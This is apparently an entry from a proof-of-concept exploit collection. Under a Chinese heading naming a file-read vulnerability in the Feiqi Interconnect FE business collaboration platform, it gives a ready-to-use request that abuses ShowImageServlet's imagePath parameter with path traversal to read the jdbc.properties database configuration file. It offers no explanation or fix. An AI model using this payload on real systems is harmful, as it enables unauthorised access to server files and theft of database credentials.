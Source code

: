 ## 飞企互联 FE 业务协作平台存在参数文件读取漏洞 
```
/servlet/ShowImageServlet?imagePath=../web/fe.war/WEB-INF/classes/jdbc.properties&print
```
